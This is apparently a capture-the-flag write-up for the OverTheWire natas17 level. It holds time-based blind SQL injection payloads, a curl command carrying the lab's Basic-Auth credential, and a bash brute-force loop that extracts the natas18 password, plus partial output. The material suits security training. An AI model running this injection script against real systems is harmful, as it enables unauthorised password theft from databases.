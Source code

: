 ```
curl -o /dev/null -s -X POST "http://natas17.natas.labs.overthewire.org/index.php" -H "Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==" --data "username=natas18"%"22+and++sleep"%"283"%"29+"%"23" -w %{time_total}
```

```
natas18" AND IF(1=1, SLEEP(3), 0)#
```

```
natas18" AND IF((SELECT MID(username, 1, 1) FROM users WHERE 
username="natas18")='n', SLEEP(3), 0) #
```


```bash
passwordlenght=32
CurrentChar=0
password=""
sleeptime=10
MIDCounter=1
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND IF((SELECT MID(password, 1, $MIDCounter) FROM users WHERE username=\"natas18\")='$password$letter', SLEEP($sleeptime), 0) #"
        #echo $injection
        data="username=natas18$injection"
        curl_output=$(curl -o /dev/null -s  'http://natas17.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' -d "$data" -w %{time_total})
        time=$(echo $curl_output | cut -d "." -f 1)
        if [ $time -ge 10 ]; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            MIDCounter=$(( $MIDCounter + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

works, but case insensative.

```
[+] Password: x
[+] Password: xv
[+] Password: xvk
[+] Password: xvki
[+] Password: xvkiq
[+] Password: xvkiqd
[+] Password: xvkiqdj
[+] Password: xvkiqdjy
```
